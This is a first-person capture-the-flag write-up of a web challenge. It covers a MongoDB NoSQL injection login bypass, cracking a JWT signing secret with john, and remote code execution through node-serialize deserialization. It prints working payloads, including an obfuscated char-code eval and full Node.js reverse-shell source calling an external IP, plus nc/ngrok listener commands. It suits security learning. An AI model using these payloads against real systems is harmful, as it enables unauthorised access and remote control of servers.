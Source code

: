 # Description

Hello and welcome everyone to my WriteUp for the "Breakfast with Grandma" Challenge By the author @j3x for the event HACK TILL S'HOUR (Or PWN TILL S'HOUR for this year) Held By The Club of @Shellmates
I'd just just to point out that this is my first ever doing a WriteUp for a CTF challenge and since i'm kinda a new/noobie in this the CTF game So if it is too long or smth like that i apologize from now since i'm trying not only to write The Solution but as well as the thinking procedure that lead us to the Flag , So let's Go : 

### NoSQL injection
1. We Are Faced with a login page as shown in the Following image : 

![alt text](login.png)
![alt text](JSON-Credits.png)

After following around a bit with the debugger and Burp Suite we can see that the response that contains the credentials inputted in the form is returned through JSON Format (here i said it's definitely a NoSQL Injection since they are who use JSON , i did some testing to confirm is was node with Mongo in burp like this : )


![alt text](Node-error.png)


First i tried with admin credits Injection like this : {"username":"admin","password":{"$ne": "x"}} Work 
then i changes it to this and we have a successful login (ofc we use Burp to send the request , u can also use ZAP or cURL but this is more simple ): 
{"username":{"$ne": "x"},"password":{"$ne": "x"}} 

![alt text](Payload-NoSQLi.png)

![alt text](SuccessLogin-Dashboard.png)

Once Logged In we don't have much to See and since the description Talked about cookies then it's probably a good idea to check them in the Storage Tab using developper tools (CTRL SHIFT C , or just right click and select it ) 
We then find a JWT Token let's decrypt it using JWT.io : We Find an used ID , iat (expiration time or smth lmao ) and an also an encodedData which contains a Base64 Coded Text : 
{
  "userId": "********************",
  "encodedData": "eyJ1c2VybmFtZSI6ImJvYmJ5IiwiYWdlIjo0LCJmYXZvdXJpdGVNZWFsIjoiQ2VyZWFscyIsIl8ybmRGYXZNZWFsIjoiQ29va2llcyJ9",
  "iat": 1712537034
}
decode it using base64 -d command in terminal (or just use a tool like CyberChef ) we find it's the same data showed in the dashboard 
{"username":"bobby","age":4,"favouriteMeal":"Cereals","_2ndFavMeal":"Cookies"}

Let's Find the JWT Signature password using our friend john (a tool to brute force passwords ) like this : 
john token.txt -w=/usr/share/wordlists/rockyou.txt (make sure to put ur JWT token in the txt file correctly : no spaces or anything else cause it may cause problems and not be found ) 
"""
$ john token.txt -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
shellmatexx      (?)     
1g 0:00:00:01 DONE (2024-04-08 01:52) 0.8928g/s 3408Kp/s 3408Kc/s 3408KC/s shikoni..sheenyboy1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
"""
The password is found : shellmatexx , this is gonna allow us to change the jwt as we which (only the base64 part , since the other ones are used for the session)

here we are bit stuck ig? let's take a look at the source code , after some good search we find a serialization/deserialization code , let's ask ChatGPT if it's vulnerable to RCE (Remote Code Execution ) , The answer Is YES 
Now we look for ready to use exploits for this case : i first found one which is the most commun/basic one let's test it : 
Source : https://www.exploit-db.com/exploits/45265
var serialize = require('node-serialize');
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
serialize.unserialize(payload);
 let's take the rce field and place it in our JSON format in place of one of the fields and the encode this : 
 

{"username":"bobby","age":4,"favouriteMeal":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()","_2ndFavMeal":"Cookies"}

BAse64 : 
eyJ1c2VybmFtZSI6ImJvYmJ5IiwiYWdlIjo0LCJmYXZvdXJpdGVNZWFsIjoiXyQkTkRfRlVOQyQkX2Z1bmN0aW9uICgpe3JlcXVpcmUoXCdjaGlsZF9wcm9jZXNzXCcpLmV4ZWMoXCdscyAvXCcsIGZ1bmN0aW9uKGVycm9yLCBzdGRvdXQsIHN0ZGVycikgeyBjb25zb2xlLmxvZyhzdGRvdXQpIH0pO30oKSIsIl8ybmRGYXZNZWFsIjoiQ29va2llcyJ9Cg==

and send it in out JWT token bu using Cyber Chef to encode it (dont forget the secret word )

![alt text](Encode-First-RCE-JWT.png)

This didnt work :

![alt text](First-RCE-Not-Working.png)

lets look for something else, after some digging up this article looked intresting as it had some resemblance to our challenge :
https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

This Used some advance a bit technique to achieve Reverse Shell Using Eval 
{"rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,50,55,46,48,46,48,46,49,34,59,10,80,79,82,84,61,34,49,51,51,55,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}

// CODE USED FOR THE REVERSE SHELL 

var net = require('net');
var spawn = require('child_process').spawn;
HOST="3.125.188.168"; // ngrok provided public IP ADD
PORT="14447";  // ngrok provided public PORT 
TIMEOUT="5000";
if (typeof String.prototype.contains === 'undefined') { String.prototype.contains = function(it) { return this.indexOf(it) != -1; }; }
function c(HOST,PORT) {
    var client = new net.Socket();
    client.connect(PORT, HOST, function() {
        var sh = spawn('/bin/sh',[]);
        client.write("Connected!\n");
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit',function(code,signal){
          client.end("Disconnected!\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}
c(HOST,PORT);

This what we are gonna do : 
1-Encode the past code to Decimal (with comma as a seperator ) then put it inside the eval
2-put the eval and rest of the code in out Data's JSON format 
3-Following that we encode The Data's JSON To base64 and 
4-And last but not least put that in the JWT Token
Change the IP and Port (Use Ngrok for a public one and then forward it to your terminal )
in terminal : Sudo ngrok tcp 4444
in another terminal window : nc -lvp 4444
(for more details check this article : https://drxh3kr.medium.com/using-netcat-with-ngrok-ip-for-receiving-reverse-shell-25ba7a498aab)
and voila we have Reverse Shell : 
look around a bit and we find the flag in the root directory (/) and there u have it 


CAPTURE SHELLL ![alt text](Ngrok-RV-Flag.png)


Note : This was an Amazing and creative challenge for me , GG to the Author 


